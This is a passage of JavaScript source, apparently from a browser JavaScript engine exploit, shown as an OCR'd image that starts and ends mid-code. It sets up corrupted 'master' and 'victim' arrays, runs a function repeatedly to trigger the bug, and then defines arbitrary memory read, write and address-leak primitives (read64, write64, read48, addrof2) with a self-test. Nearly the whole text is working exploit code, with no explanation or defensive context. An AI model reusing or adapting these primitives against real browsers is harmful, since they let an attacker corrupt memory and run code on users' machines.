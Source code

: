 ```JavaScript
        } else {
            a[7] = victim_addr_f;
        }
    }
    action = 1;
    for (var j = 0; j < 5; ++j)
        f(a, o);
    var victim_addr = f2i(victim_addr_f);
    var container_addr = f2i(container_addr_f);
    //print('victim @ ' + hex(victim_addr) + ' / container @ ' + hex(container_addr));
    var objs = [];
    for (var i = 0; i < 100; i++) {
        objs[i] = {x: 'asd', p1: {}, p2: {}, p3: {}, p4: {}, p5: master};
    }
    var o = objs[0];
    action = 2;
    for (var j = 0; j < 5; ++j)
        f(a, o);
    function set_addr(where) {
        master[7] = i2f(where);
    }
    function read64(where) {
        set_addr(where);
        var res = 0;
        for (var i = 7; i >= 0; --i) {
            res = res*0x100 + victim[i];
        }
        return res;
    }
    function read48(where) {
        set_addr(where);
        var res = 0;
        for (var i = 5; i >= 0; --i) {
            res = res*0x100 + victim[i];
        }
        return res;
    }
    function write64(where, what) {
        set_addr(where);
        for (var i = 0; i < 8; ++i) {
            victim[i] = what%0x100;
            what = (what-what%0x100)/0x100;
        }
    }
    function addrof2(x) {
        container.a = x;
        return read48(container_addr + 0x20);
    }
    function check() {
        print('master/victim: ' + hex(addrof2(master)) + ' ' + hex(addrof2(victim)));
    }
    function test() {
        var x = {x:0x1337};
        if (read48(addrof2(x)+0x20)%0x10000 != 0x1337) {
            check();
            fail("R/W does not work");
        }
    }
    return {
        addrof: addrof2,
        read64: read64,
        write64: write64,
        read48: read48,
```